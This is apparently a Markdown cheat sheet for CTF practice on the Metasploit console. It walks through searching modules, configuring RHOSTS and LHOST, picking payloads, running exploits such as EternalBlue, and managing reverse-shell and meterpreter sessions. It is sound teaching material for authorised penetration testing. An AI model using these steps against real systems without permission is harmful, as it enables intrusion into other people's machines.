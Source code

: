 # Metasploit Framework

[![metasploitintro](../../../_badges/thm/metasploitintro.svg)](https://tryhackme.com/room/metasploitintro)
[![rpmetasploit](../../../_badges/thm/rpmetasploit.svg)](https://tryhackme.com/room/rpmetasploit)

<div class="row row-cols-md-2"><div>

The [Metasploit Framework](https://github.com/rapid7/metasploit-framework) is a penetration testing framework that you can use to test your systems. Metasploit is divided into **modules** 📌

* **Auxiliary**: test the availability of an exploit
* **Payloads**: the data sent to perform the attack
  * single/inline/... payloads
  * xxx payloads
* **Exploits**: code exploiting a vulnerability
* Encoders/Evasion/NOPs
* **Post**: scripts that you can use once on the target
</div><div>

Start the `msfconsole` 🚀

```bash
$ msfconsole -q
msf6 > help
msf6 > help <command>
# example
msf6 > help help
```

Links

* [Metasploit Documentation](https://docs.metasploit.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) 📌
</div></div>

<hr class="sep-both">

## 🔎 Search for modules 🔎

<div class="row row-cols-md-2 mt-4"><div>

### ✨️First: search a module

The first thing you want to do is to find exploits <small>(to perform an attack)</small> or auxiliary <small>(to see if the target is vulnerable)</small>. In any case, you will use `search`

```bash
msf6 > search xxx yyy # search by terms
msf6 > search CVE-YEAR-ID # CVE
msf6 > search exploit/xxx/yyy/ # module
msf6 > search type:xxx [...] # only exploit...
msf6 > search cve:year [...] # only disclosed in year
```

Examples

```bash
msf6 > search apache tomcat
msf6 > search exploit/linux/local/
msf6 > search type:auxiliary cve:2022 wordpress
```

### ✨️Second (optional): learn more about it

```bash
msf6 > info module_name # ex: exploit/xxx/...
# the values in the '#' column of your search
msf6 > info module_index # ex: 0
```
</div><div>

### ✨️ Third: use it

Once you selected your exploit/..., you need to tell metasploit that you want to play with it. For that, you will use the command `use`.

```bash
msf6 > use module_name # ex: exploit/xxx/...
msf6 > use module_index # ex: 0
```

Examples

```bash
msf6 > search eternalblue pool
#  Name  Disclosure Date  Rank     Check  Description
-  ----  ---------------  ----     -----  -----------
0  exploit/windows/smb/ms17_010_eternalblue  [...]

# you can use
msf6 > use 0
msf6 > use ms17_010_eternalblue # will not always work
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
</div></div>

<hr class="sep-both">

## 🖍️ Configure your module 🖍️

<div class="row row-cols-md-2 mt-4"><div>

### ✨️ Four: set the options

Much like with manual exploits, almost every time you need to configure it. You can list the options of your module with

```bash
msf6 exploit('module_used') > options
msf6 exploit('module_used') > show options # same
```

You must at least give a value to options marked as required.

```bash
msf6 exploit('module_used') > set <option> <value>
# example with RHOSTS
msf6 exploit('module_used') > set RHOSTS target_ip
```

Some options that you will see often

* `set LHOST IP`: your IP
* `set RHOSTS IP`: your target IP
* `set RPORT PORT`: your port

⚠️ If you are using a VPN, such as on TryHackMe, you will use your VPN interface, otherwise you will see a message `"[...] exploit succeeded but no session was created [...]"` for reverse shells, because the target can't reach you.

```bash
msf6 exploit('module_used') > set LHOST tun0
```
</div><div>

### ✨️ Five (optional): set the target

For some exploits, you can use different targets. If you can see at the bottom of options a mention to a target, then that's your case.

```bash
msf6 [...] > show targets # list targets that you can use
msf6 [...] > set target 2 # use target 2
```

### ✨️ Six (optional): set the payload

Some exploits come with a pre-defined payload, but for most, you will have to pick your payload. 🔎 For most basics CTF, using the default payload is good enough.

```bash
msf6 [...] > show payloads
msf6 [...] > set payload 1
msf6 [...] > set payload payload_name
```

### ✨️ Seven: open fire 🔫!

```bash
msf6 exploit('module_used') > run
msf6 exploit('module_used') > exploit # same
```

If successful, a session will be opened on the host, in which you can enter commands. You may be "lucky" and already have a **meterpreter**.
</div></div>

<hr class="sep-both">

## ⚡️ Unleashing metasploit ⚡

<div class="row row-cols-md-2 mt-4"><div>

Before proceeding with the step 8, there are a couple a things that could make your life easier, both in the previous, and in the next steps.


* 🔨  You can execute the associated auxiliary (if any) before running the exploit

```bash
msf6 exploit('module_used') > check
```

* You can set variable globally. You will most likely enjoy this feature, because you will usually go back and forth between modules, and you don't want to set the same options again and again.

```bash
msf6 exploit('module_used') > setg LHOST tun0
msf6 exploit('module_used') > setg RHOSTS x.x.x.x
```

* You can unset variable, which will give them back their default value

```bash
msf6 exploit('module_used') > unset RHOSTS
msf6 exploit('module_used') > unset all
```

</div><div>

* 📜 You can see the history of the command you used until now

```bash
msf6 exploit('module_used') > history
```

* ⬅️You can go back to "no module selected" without having to close metasploit

```bash
msf6 exploit('module_used') > back
msf6 > # you're back
```
</div></div>

<hr class="sep-both">

##  📝 Learn about sessions 📝

<div class="row row-cols-md-2"><div>

You should have seen this when you got your reverse shell. Each reverse shell is available via a session.

* From another reverse shell, you can go back to the msfconsole without closing the session with

```bash
# if no meterpreter
bg
background
# if you got meterpreter
meterpreter > bg
meterpreter > background
```
</div><div>

* List sessions

```bash
msf6 exploit('module_used') > sessions
```

* Move to a session

```bash
msf6 exploit('module_used') > sessions  -i 1
```

* Kill/Close a session

```bash
msf6 exploit('module_used') > sessions  -k 1
```
</div></div>

<hr class="sep-both">

##  🏎️ Getting your meterpreter 🏎

<div class="row row-cols-md-2"><div>

### ✨️ Eight (optional): get your meterpreter

A meterpreter is a reverse shell in which some post modules were loaded to make your privilege escalation easier, along with your post-exploitation tasks.

If you don't need one, or you already have one, you can to skip this step.
</div><div>

Commands to upgrade your shell to a meterpreter

```bash
background # go back, note the session id
msf6 exploit('module_used') > sessions -u -1
msf6 exploit('module_used') > sessions -k old_session_id # kill old
msf6 exploit('module_used') > sessions -i new_session_id # move to meterpreter
meterpreter > # yesss
```
</div></div>